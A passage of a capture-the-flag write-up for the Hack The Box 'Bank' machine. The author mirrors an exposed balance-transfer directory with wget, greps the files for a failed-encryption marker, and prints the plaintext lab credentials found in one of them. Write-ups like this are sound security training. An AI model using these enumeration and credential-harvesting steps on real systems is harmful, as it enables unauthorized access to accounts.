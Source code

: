 This directory contains a LOT of balance transfer, who looks like that :

![Balance example](/assets/imgs/bank/balance_example.PNG)

The data contained in thoose files are encrypted ! But what if there is one that is not, I might be able to get credentials. To check for that, I recursively download all of the transfer files :

```
wget -r http://bank.htb/balance-transfer/
```

Then I display only the first line of each files and remove  "++OK" to see if at least a file didn't succeed encryption :

```
head -n 1 * -q | grep -v "++OK"
--ERR ENCRYPT FAILED
```

So there is a file that contains data which aren't encrypt, let's found this file :

```
grep -Ri "ENCRYPT FAILED" 
68576f20e9732f1b2edc4df5b8533230.acc:--ERR ENCRYPT FAILED
```

![Encryption failed](/assets/imgs/bank/encryption_failed.PNG)

I now have credentials :

```
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
```
